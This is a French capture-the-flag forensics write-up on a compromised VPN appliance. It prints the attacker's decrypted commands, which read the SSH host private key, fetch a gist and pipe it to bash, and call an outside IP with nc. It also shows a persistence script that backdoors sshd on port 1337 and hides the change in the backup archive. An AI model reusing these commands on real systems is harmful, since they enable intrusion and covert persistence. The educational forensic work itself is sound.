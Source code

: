 
https://hackropole.fr/fr/challenges/forensics/fcsc2024-forensics-horreur-malheur-4/

## Description

Vous venez d’être embauché en tant que Responsable de la Sécurité des Systèmes d’Information (RSSI) d’une entreprise stratégique.

En arrivant à votre bureau le premier jour, vous vous rendez compte que votre prédécesseur vous a laissé une clé USB avec une note dessus : `VPN compromis (intégrité). Version 22.3R1 b1647`.

---

Vous remarquez qu’une fonctionnalité _built-in_ de votre équipement ne fonctionne plus et vous vous demandez si l’attaquant n’a pas utilisé la première persistance pour en installer une seconde, moins “visible”…

Vous cherchez les caractéristiques de cette seconde persistance : protocole utilisé, port utilisé, chemin vers le fichier de configuration qui a été modifié, chemin vers le fichier qui a été modifié afin d’établir la persistance.

Le flag est au format : `FCSC{<protocole>:<port>:<chemin_absolu>:<chemin_absolu>}`.

Cette épreuve a été découpée en cinq parties :

- [Horreur, malheur 1/5 - Archive chiffrée](https://hackropole.fr/fr/challenges/forensics/fcsc2024-forensics-horreur-malheur-1/).
- [Horreur, malheur 2/5 - Accès initial](https://hackropole.fr/fr/challenges/forensics/fcsc2024-forensics-horreur-malheur-2/).
- [Horreur, malheur 3/5 - Simple persistance](https://hackropole.fr/fr/challenges/forensics/fcsc2024-forensics-horreur-malheur-3/).
- [Horreur, malheur 4/5 - Pas si simple persistance](https://hackropole.fr/fr/challenges/forensics/fcsc2024-forensics-horreur-malheur-4/).
- [Horreur, malheur 5/5 - Un peu de CTI](https://hackropole.fr/fr/challenges/forensics/fcsc2024-forensics-horreur-malheur-5/).
## Write Up

On ressort les commandes déchiffrés avant, je trouve qu'on ne les a pas assez poussé :
```tex
b'id'
b'ls /'
b'echo FCSC{6cd63919125687a10d32c4c8dd87a5d0c8815409}'
b'cat /data/runtime/etc/ssh/ssh_host_rsa_key'
b'/home/bin/curl -k -s https://api.github.com/repos/joke-finished/2e18773e7735910db0e1ad9fc2a100a4/commits?per_page=50 -o /tmp/a'
b'cat /tmp/a | grep "name" | /pkg/uniq | cut -d ":" -f 2 | cut -d \'"\' -f 2 | tr -d \'\n\' | grep -o . | tac | tr -d \'\n\'  > /tmp/b'
b'a=`cat /tmp/b`;b=${a:4:32};c="https://api.github.com/gists/${b}";/home/bin/curl -k -s ${c} | grep \'raw_url\' | cut -d \'"\' -f 4 > /tmp/c'       
b'c=`cat /tmp/c`;/home/bin/curl -k ${c} -s | bash'
b'rm /tmp/a /tmp/b /tmp/c'
b'nc 146.0.228.66:1337'
```

On rejoue les commandes : 

Première commande :
```sh
curl -k -s https://api.github.com/repos/joke-finished/2e18773e7735910db0e1ad9fc2a100a4/commits?per_page=50 -o /tmp/a
```

Juste j'ai bidouillé la deuxième commande car ça ne marchait pas : 
```sh
cat /tmp/a | grep "name" | uniq | cut -d ":" -f 2 | sed 's/"//g' | grep -o . | tac | tr -d '\n' | sed 's/n//g' | tr -d ' ,' > /tmp/b
```

Et on bidouille la troisième commande :
```sh
a=`cat /tmp/b`;b=${a:4:32};c="https://api.github.com/gists/${b}";curl -k -s ${c} | grep 'raw_url'
```

Et hop, on a ce rendu :
![[Pasted image 20250212101748.png]]

Sur la page on arrive à ce script :
```bash
sed -i 's/port 830/port 1337/' /data/runtime/etc/ssh/sshd_server_config > /dev/null 2>&1
sed -i 's/ForceCommand/#ForceCommand/' /data/runtime/etc/ssh/sshd_server_config > /dev/null 2>&1
echo "PubkeyAuthentication yes" >> /data/runtime/etc/ssh/sshd_server_config
echo "AuthorizedKeysFile /data/runtime/etc/ssh/ssh_host_rsa_key.pub" >> /data/runtime/etc/ssh/sshd_server_config
pkill sshd-ive > /dev/null 2>&1
gzip -d /data/pkg/data-backup.tgz > /dev/null 2>&1
tar -rf /data/pkg/data-backup.tar /data/runtime/etc/ssh/sshd_server_config > /dev/null 2>&1
gzip /data/pkg/data-backup.tar > /dev/null 2>&1
mv /data/pkg/data-backup.tar.gz /data/pkg/data-backup.tgz > /dev/null 2>&1
```

On voit le port 1337, dès le début, Ensuite on remarque le fichier "/data/runtime/etc/ssh/sshd_server_config" est modifié, donc config ssh (on trouve le protocole ainsi)
Et à la fin on voit la backup modifié : /data/pkg/data-backup.tgz.

Le flag est donc **FCSC{ssh:1337:/data/runtime/etc/ssh/sshd_server_config:/data/pkg/data-backup.tgz}**.